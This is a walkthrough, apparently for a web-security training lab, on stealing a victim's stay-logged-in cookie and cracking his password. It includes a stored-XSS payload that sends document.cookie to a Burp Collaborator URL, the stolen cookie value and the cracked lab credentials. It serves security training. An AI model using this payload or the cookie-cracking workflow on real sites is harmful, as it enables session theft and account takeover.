# Lab: Offline password cracking

> Lab Objective: obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.

- Login using provided credentials `wiener:peter`, then inspec the login process.

- The Login Process with 'Stay Logged in' option enabled:

  1. Enter your credentials (username & password), if valid you'll be issued a `stay-logged-in` cookie.
     
  2. You'll be redirected to your account page.
     

- The `stay-logged-in` cookie, you can Base64 decode it and it'll be consisting of:
  - The username.
  - the password (hashed using MD5).
    



- There is an XSS vulnerability within the posts comments, for instance post the following comment:
  

- And the alert will be executed.
  

- Therefore, in order to capture Carlos's cookie to be able to crack his password use the following payload:

```js
<script>document.location="BURP-COLLABORATOR-URL?key="+document.cookie</script>
```



- View Burp Collaborator, then poll now, you'll find requests made to your server, which includes the HTTP request with Carlos's `stay-logged-in` cookie (the cookie = `stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz`)
  

- Take the value of the cookie, decode it as Base64 then take the hashed password and find the original value of it.
  
  

- The victim's credentials will be `carlos:onceuponatime`, use them to login as Carlos.
  

- When deleting the account, you'll be prompted to enter the password, enter it then delete the account and the lab is solved.
  
  

---
